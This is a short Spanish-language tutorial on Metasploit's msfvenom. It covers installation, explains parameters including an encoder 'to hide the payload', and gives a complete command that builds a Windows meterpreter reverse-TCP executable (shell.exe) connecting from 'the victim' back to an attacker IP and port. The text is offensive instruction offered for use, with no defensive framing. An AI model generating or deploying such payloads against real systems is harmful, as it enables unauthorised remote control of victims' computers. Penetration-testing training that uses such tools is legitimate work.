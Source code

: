 
### 🛠️ **Instalación (si no lo tienes)**

#### En **Kali Linux**:

Ya viene instalado. Solo escribe:

```bash
msfvenom -h
```

#### En **Ubuntu/Debian**:

```bash
sudo apt update
sudo apt install metasploit-framework
```

Verifica:

```bash
msfvenom -h
```

---

### 🧠 **Conceptos claves antes de usar**

| Parámetro | Significado                                         |
| --------- | --------------------------------------------------- |
| `-p`      | Payload (tipo de código malicioso que quieres usar) |
| `LHOST`   | Tu IP (donde recibirás la conexión)                 |
| `LPORT`   | Puerto que abrirás para escuchar                    |
| `-f`      | Formato de salida (`exe`, `py`, `elf`, etc.)        |
| `-o`      | Nombre del archivo de salida                        |
| `-e`      | Encoder (para ocultar el payload)                   |

---

### ✅ 1️⃣ **Payload Windows Reverse Shell**

🎯 Este payload se conecta desde la víctima a tu máquina atacante (reverse shell).

#### 💻 Comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell.exe
```

#### 🧩 Explicación:

- `-p windows/meterpreter/reverse_tcp`: payload para Windows.
- `LHOST`: tu IP (atacante).
- `LPORT`: puerto para recibir la conexión.
- `-f exe`: genera archivo `.exe`.
- `-o shell.exe`: nombre del archivo final.
